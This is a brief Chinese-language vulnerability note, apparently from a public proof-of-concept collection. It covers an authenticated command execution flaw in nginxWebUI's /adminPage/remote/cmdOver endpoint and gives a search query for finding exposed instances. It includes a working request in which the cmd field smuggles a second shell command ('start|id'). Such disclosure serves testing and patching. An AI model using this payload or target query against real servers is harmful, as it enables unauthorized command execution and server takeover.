 # nginxWebUI cmdOver 后台命令执行漏洞

## 漏洞描述

nginxWebUI 后台存在命令执行漏洞，攻击者登录后台后可以执行任意命令获取服务器权限

## 漏洞影响

```
nginxWebUI
```

## 网络测绘

```
title="nginxwebui"
```

## 漏洞复现

登录页面

![image-20220628112638269](images/202206281126396.png)



验证请求包

```
POST /adminPage/remote/cmdOver

remoteId=local&cmd=start|id&interval=1
```

![image-20220628112938342](images/202206281129491.png)